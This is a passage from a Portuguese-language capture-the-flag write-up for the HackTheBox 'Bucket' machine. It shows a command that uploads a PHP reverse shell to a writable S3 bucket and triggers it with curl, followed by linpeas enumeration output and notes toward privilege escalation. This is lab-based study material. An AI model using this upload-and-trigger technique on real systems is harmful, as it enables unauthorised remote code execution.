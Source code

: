Para um shell reverso, alterei o arquivo a ser enviado de `exploit.php` pelo [pentestmonkey/php-reverse-shell (github.com)](https://github.com/pentestmonkey/php-reverse-shell) que já iniciaria a conexão reversa a um listener previamente definido, sem a necessidade de enviar parâmetros no payload, o qual tivemos sucesso após algumas tentativas.

```bash
aws s3 --endpoint-url http://s3.bucket.htb --profile bucket.htb cp ./exploit.php s3://adserver/ && curl -L http://bucket.htb/exploit.php
```

## User flag

Uma vez com acesso ao shell da máquina, executei o `linpeas.sh` para simplificar a enumeração, onde os seguintes itens foram identificados:

- Usuário local `roy` possui acesso à máquina e, enumerando seu diretório observado a existencia do arquivo `user.txt`, o qual não temos acesso leitura com a conta `www-data` além de uma pasta `project` a ser inspecionada.

  - Este usuário não possui nenhum processo em execução que eventualmente permita a exploração logo precisaremos obter suas credenciais de alguma forma.

- Alguns outros serviços encontram-se em execução nesta máquina, funcionando nas portas 4566, 8000 e 38443, que possivelmente venham a dar privilégios a outras atividades em um segundo momento.

  ```output
  [+] Active Ports                                                                                         
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                               
  Active Internet connections (servers and established)                                                     
  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name         
  tcp        0      0 127.0.0.1:38443         0.0.0.0:*               LISTEN      -                        
  tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                         
  tcp        0      0 127.0.0.1:4566          0.0.0.0:*               LISTEN      -                         
  tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                         
  tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                     
  ```

- Esta máquina possui serviços de container em execução (`ctr`, `runc`), que executam provavelmente o localstack e que poderiam ser avaliados para escalação de privilégios.

- Existe um diretório `/var/www/bucket-app` que pode ser a aplicação servida em uma das portas identificadas, mas que não possuímos acesso de leitura com a conta utilizada.

Dos pontos mencionados, o que mais chamou atenção foi o possível website em execução nas portas citadas, logo iniciei por verificar as configurações ativas no Apache (`/etc/apache2/sites-enabled`) onde tínhamos o arquivo `000-default.conf` listado abaixo, mas não encontrei nada sobre a porta 38443, mas tive a informação sobre a porta 4566, que é publicada pela porta 80 e na porta 8000, que é publicado o website disponível na pasta `/var/www/bucket-app`.
